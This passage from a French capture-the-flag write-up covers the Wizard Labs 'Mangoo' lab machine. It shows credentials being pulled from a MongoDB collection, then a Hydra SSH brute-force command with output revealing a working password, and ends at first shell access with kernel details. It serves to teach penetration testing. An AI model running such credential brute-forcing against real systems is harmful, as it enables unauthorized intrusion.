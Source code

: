 Maintenant que l'on dispose d'un accès au Mongo on peut aller voir les collections présentes (ici avec *Studio 3T*) :  

![WizardLabs Mangoo CTF credentials in mongodb passwords collection](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/mangoo_mongodb_credentials.png)

On trouve des hashs facilement cassables (une recherche Google suffit) dans la collection *credentials*. J'ai rajouté les plaintext en rouge.  

La collection *users* dispose de différentes entrées (*ben*, *lionel*, *chawki*). On place les users et les passwords dans des fichiers respectifs et on voit ce que le brute-force peut donner.  

```plain
$ hydra -L users.txt -P pass.txt -e nsr ssh://10.1.1.21
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 16:39:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 18 login tries (l:3/p:6), ~2 tries per task
[DATA] attacking ssh://10.1.1.21:22/
[22][ssh] host: 10.1.1.21   login: chawki   password: valentine
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 16:39:43
```

Lychee
------

Cet accès SSH nous permet d'obtenir le premier flag. On est sur une distrib *Ubuntu 18.04 LTS Bionic Beaver* avec le kernel suivant :  

```plain
Linux mangoo 4.15.0-30-generic #32-Ubuntu SMP Thu Jul 26 17:42:43 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
